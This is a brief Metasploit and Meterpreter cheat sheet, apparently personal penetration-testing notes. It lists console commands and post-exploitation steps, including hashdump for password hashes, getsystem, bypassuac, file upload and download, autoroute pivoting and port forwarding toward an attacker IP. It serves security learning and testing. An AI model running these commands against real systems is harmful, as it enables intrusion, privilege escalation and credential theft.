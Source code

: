 Without banner,
`msfconsole -q`

after starting of MSF, these are the basic commands,
`search x`
`use x`
`info`
`options, show advanced options`
`SET X (e.g. set RHOST 10.10.10.10, set payload x)`

## Meterpreter Commands

After getting meterpreter shell, we'll can issue some commands which will help us in exploiting the machine,
`background`
`sessions -l`
`sessions -i N (N is number)`
`sysinfo, ifconfig, route, getuid`
`getsystem (privesc)`
`bypassuac`
`download x /root/`
`upload x C:\\Windows`
`shell`
`hashdump`

For auto routing,
`use post/multi/manage/autoroute`
then set the options {SESSIONS, SUBNET} (will work if meterpreter shell shows that user is root)

Check active route table,
`route`

port forwarding,
`portfwd add -L <attacker machine IP> -l listening_port -p 80 -r <host machine IP>`

Meterpreter Proxy and Autoroute Blog,
http://blog.safebuff.com/2017/01/02/Meterpreter-Proxy-and-Route/